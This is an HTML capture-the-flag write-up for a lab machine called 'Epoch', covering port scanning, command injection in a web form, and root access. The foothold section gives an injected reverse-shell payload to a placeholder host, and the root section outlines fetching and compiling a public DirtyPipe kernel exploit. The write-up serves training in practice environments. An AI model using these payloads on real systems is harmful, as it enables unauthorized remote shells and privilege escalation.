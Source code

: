 <h1>writeup-Epoch</h1>
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication, So let's start the machine and check out the WebApplication.
    The room also suggests Command Injection so maybe that's the vulnerability in the WebApplication.
</h3></blockquote>
<br>

<ol>
    <li>
        <h2>Reconnaissance</h2>
        <hr>
        <ul>
            <li>
                <h3>Port Scanning</h3>
                <ul>
                    Rustscan result :
                    <ul><code>
                        Open 10.10.215.48:22 - ssh<br>
                        Open 10.10.215.48:80 - http
                    </code></ul>
                </ul>
            </li>
            <li>
                <h3>SSH</h3>
                <ul><code>
                    OpenSSH 8.2p1 Ubuntu 4ubuntu0.4
                </code></ul>
            </li>
            <li>
                <h3>WebPage</h3>
                <ul>
                    <img src="./img/webPage.png" alt="webPage" width="500"><br>
                </ul>
            </li>
        </ul>
    </li><br>
    <li>
        <h2>Foothold</h2>
        <hr>
        <ul>
            <li>
                <h3>SSH</h3>
                <ul>Brute forcing ssh with hydra will definitely fail and it's not the main objective 
                    of this room so let's move on to the WebApplication.</ul>
            </li>
            <li>
                <h3>WebApplication</h3>
                <ul>
                    We will start with Command Injection because the room description suggests that.
                    Let's try some command injection tricks from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>. <br>
                    <img src="./img/webPage2.png" alt="webPage2" width="500"><br>
                    Now that we know command injection works, let's get a shell.
                    <ul>
                        <li>Step 1:
                            <ul>
                                Start a nc listener.<br>
                                command = <code>nc -lvnp 1234</code>
                            </ul>
                        </li>
                        <li>Step 2:
                            <ul>
                                Enter your reverse shell command in the input field with command injection vulnerability and click on <code>Convert</code> button.<br>
                                payload = <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code>
                                You got a reverse shell.
                            </ul>
                        </li>
                    </ul>
                    <h2>
                        You can find your flag using <code>env</code>.
                    </h2>
                </ul>
            </li>
        </ul>
    </li>
    <li>
        <h2>Root</h2>
        <hr>
        <ul>
            <li>
                <h3>Things i tried and didn't work :</h3>
                <ol>
                    <li>
                        <code>sudo -l</code>
                        <ul>
                            <code>sh: 2: sudo: not found</code>
                        </ul>
                    </li>
                    <li>
                        <code>find / -type f -perm -04000 2>/dev/null</code>
                        <ul>Nothing intresting here</ul>
                    </li>
                    <li>
                        crontab
                        <ul>
                            <code>No such file or directory</code>
                        </ul>
                    </li>
                </ol>
            </li>
            <li>
                <h3>Thing that did work :</h3>
                <ul>
                    <code>uname -a</code> will show you that this machine is running on <code>linux kernel version 5</code> which might be vulnerable to <code>DirtyPipe</code>.
                    So heres how we will exploit that.
                    <li>
                        Step 1:
                        <ul>Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.</ul>
                    </li>
                    <li>
                        Step 2:
                        <ul>Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.</ul>
                    </li>
                    <li>
                        step 3:
                        <ul>
                            compile and execute the executable using <code>gcc</code>.
                        </ul>
                    </li>
                </ul>
                <img src="./img/root.png" alt="root" width="500">
            </li>
        </ul>
    </li><br>

</ol>